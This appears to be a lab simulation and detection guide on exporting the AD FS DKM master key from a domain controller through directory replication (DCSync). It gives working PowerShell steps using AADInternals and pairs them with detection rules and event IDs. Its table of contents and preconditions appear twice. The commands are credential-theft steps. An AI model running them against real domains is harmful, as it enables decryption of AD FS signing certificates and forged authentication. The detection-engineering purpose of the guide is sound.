


# Export Active Directory Federation Services (AD FS) DKM Master Key from Domain Controller via Directory Replication Services (DRS)

Even though a threat actor might have been able to extract AD FS certificates from AD FS configuration settings, they still would need to be decrypted. AD FS certificates are encrypted using Distributed Key Manager (DKM) APIs and the DKM master key used to decrypt them is stored in the domain controller. When the primary AD FS farm is configured, the AD FS DKM container is created in the domain controller and the DKM master key is stored as an attribute of an AD contact object located inside of the container.

The path of the AD FS DKM container in the domain controller might vary, but it can be obtained from the `AD FS configuration settings`. After getting the AD path to the container, a threat actor can directly access the AD contact object and read the AD FS DKM master key value. One way to to indirectly access and retrieve the DKM master key can be via [Active Directory Replication services (DRS)](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-drsr/06205d97-30da-4fdc-a276-3fd831b272e0#:~:text=The%20Directory%20Replication%20Service%20%28DRS%29%20Remote%20Protocol%20is,name%20of%20each%20dsaop%20method%20begins%20with%20%22IDL_DSA%22.) and retrieve the AD object. This approach bypasses detections that rely on audit rules monitoring for any direct access attempt to the AD object. However, this approach requires the user to have the right elevated privileges to perform directory replication actions in a domain.

## Table of Contens

* [Preconditions](#preconditions)
* [Simulation Steps](#simulation-steps)
* [Detection](#detection)
* [Output](#output)
* [Variations](#variations)

## Preconditions

* Integrity level: medium
* Authorization:
    * Resource: AD FS Database 
        * Identity:
            * AD FS Service Account
            * Local Administrator
    * Resource: AD FS DKM Container
        * Identity:
            * AD FS Service Account
            * AD Domain Administrator
* Domain Controller:
    * Services:
        * Lightweight Directory Access Protocol (LDAP)
    * Network:
        * Port: 389
* Input:
    * AD FS Configuration Settings

## Table of Contents

* [Preconditions](#preconditions)
* [Simulation Steps](#simulation-steps)
* [Detection](#detection)
* [Output](#output)
* [Variations](#variations)

## Preconditions
* Integrity level: medium
* Authorization:
    * Resource: Domain Controller
    * Identity:
        * AD Domain Administrator
* Domain Controller
    * Services:
        * Active Directory Replication
* Input:
    * AD FS Configuration Settings

## Simulation Steps

### Get Path of AD FS DKM container

The AD FS DKM key value is stored in the `ThumbnailPhoto` attribute of an AD contact object in the AD FS DKM container. Therefore, we first need to get the path of the AD FS DKM container in the AD domain controller. That information can be retrieved from the `AD FS configuration settings`.

```PowerShell
[xml]$xml=$settings
$group = $xml.ServiceSettingsData.PolicyStore.DkmSettings.Group
$container = $xml.ServiceSettingsData.PolicyStore.DkmSettings.ContainerName
$parent = $xml.ServiceSettingsData.PolicyStore.DkmSettings.ParentContainerDn
$base = "LDAP://CN=$group,$container,$parent"
$base
```


### Retrieve AD Contact Object via Directory Replication Services

**Active Directory Replication Services with AADInternals** 

1. Access a the domain-joined endpoint (`WORKSTATION6`) where you authenticated previously as a domain administrator to perform the [DCSync technique](https://attack.mitre.org/techniques/T1003/006/).
2. Open PowerShell as Administrator
3. Get the path of the AD FS DKM container and use it to obtain the `GUID` of the AD FS DKM contact object.

```PowerShell
$ADSISearcher = [ADSISearcher]'(&(objectclass=contact)(!name=CryptoPolicy)(ThumbnailPhoto=*))'
$ADSISearcher.SearchRoot = [ADSI]"$base"
$results = $ADSISearcher.FindOne()
$AdfsContactObjectGuid = ([guid]($results.Properties).objectguid[0]).guid
$AdfsContactObjectGuid
```


4. On the same elevated PowerShell session, run the following commands to install [AADInternals](https://github.com/Gerenios/AADInternals) if it is not installed yet: 

```PowerShell
Install-Module –Name AADInternals -Force 
Import-Module AADInternals
```

5. Export the AD FS DKM master key value via directory replication services.

```PowerShell
$ObjectGuid = '9736f74f-fd37-4b02-80e8-8120a72ad6c2' 
$DC = 'DC01.simulandlabs.com' 
$cred = Get-Credential 
$Key = Export-AADIntADFSEncryptionKey -Server $DC -Credentials $cred -ObjectGuid $ObjectGuid 
[System.BitConverter]::ToString([byte[]]$key)
```



## Detection

### Detect the use of Directory Replication Services to Retrieve AD Contact Object

#### Azure Sentinel Detection Rules

**Non-DC Active Directory Replication**

The following access rights/permissions are needed for the replication request according to the domain functional level:

| Control access right symbol    | Identifying GUID used in ACE |
| ------------------------------ | ---------------------------- |
| DS-Replication-Get-Changes     | 1131f6aa-9c07-11d1-f79f-00c04fc2dcd2 |
| DS-Replication-Get-Changes-All | 1131f6ad-9c07-11d1-f79f-00c04fc2dcd2 |
| DS-Replication-Get-Changes-In-Filtered-Set | 89e95b76-444d-4c62-991a-0facbeda640c |

We can see those GUID values in the `Properties` values of Windows Security events with ID 4662.


We can also join the Windows Security event 4662 with 4624 on the LogonId value to add authentication context to the replication activity and get the `IP Address` of the workstation that performed the action.


Use the following detection rule to explore this activity:

* [Non Domain Controller Active Directory Replication](https://github.com/Azure/Azure-Sentinel/blob/master/Detections/SecurityEvent/NonDCActiveDirectoryReplication.yaml)

#### Microsoft Defender for Identity

**Suspected DCSync attack (replication of directory services)** 

The Microsoft Defender for Identity sensor installed on the domain controller triggers an alert when this behavior occurs. MDI detects non-domain controllers using Directory Replication Services (DRS) to sync information from the domain controller. Something to keep an eye on is the number of replication requests in the alert information. It went up from 4 to 10. Remember that the same alert also shows up in MCAS.

1.  Navigate to [Microsoft 365 Security Center](https://security.microsoft.com/).
2.  Go to `More Resources` and click on `Azure Advanced Threat Protection`. 



## Output
* AD FS DKM Master Key

## Variations
* [Export AD FS DKM Master Key from Domain Controller via LDAP Queries](exportADFSDKMMasterKeyLDAP.md)

## References
* [Exporting ADFS certificates revisited: Tactics, Techniques and Procedures (o365blog.com)](https://o365blog.com/post/adfs/)